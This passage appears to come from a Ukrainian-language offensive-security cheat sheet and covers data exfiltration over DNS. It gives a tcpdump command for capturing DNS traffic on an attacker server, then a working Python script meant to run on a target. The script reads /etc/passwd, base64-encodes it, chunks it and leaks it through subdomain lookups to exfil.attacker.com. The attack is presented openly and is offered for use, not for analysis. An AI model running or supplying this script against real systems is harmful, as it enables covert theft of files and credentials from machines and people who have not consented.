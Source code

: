### 🔸 Прийом:
```bash
croc <code>
```

---

## 📡 9. Ексфільтрація через DNS + tcpdump

### 🔸 На сервері (перехоплення):
```bash
tcpdump -i any port 53 -w exfil.pcap
```

### 🔸 На таргеті:
```python
import base64
import socket
import time

def sanitize_base64(b64str):
    """
    Робить base64-блок DNS-безпечним:
    + → -, / → _, = → (опційно) ~ або прибрати
    """
    return b64str.replace('+', '-').replace('/', '_').replace('=', '')

def exfiltrate_dns_base64(file_path, domain="exfil.attacker.com", delay=0.5):
    with open(file_path, "rb") as f:
        data = f.read()

    # Кодування в base64 → str
    encoded = base64.b64encode(data).decode()

    # Робимо DNS-безпечну версію
    safe_encoded = sanitize_base64(encoded)

    # Розбивка на chunks довжиною ≤ 50 символів
    chunks = [safe_encoded[i:i+50] for i in range(0, len(safe_encoded), 50)]

    print(f"[+] Exfiltrating {len(chunks)} chunks via DNS to {domain}")
    for i, chunk in enumerate(chunks):
        subdomain = f"{chunk}.{domain}"
        try:
            socket.gethostbyname(subdomain)
        except:
            pass
        print(f"[{i+1}/{len(chunks)}] Sent: {subdomain}")
        time.sleep(delay)

if __name__ == "__main__":
    exfiltrate_dns_base64("/etc/passwd", domain="exfil.attacker.com")
```
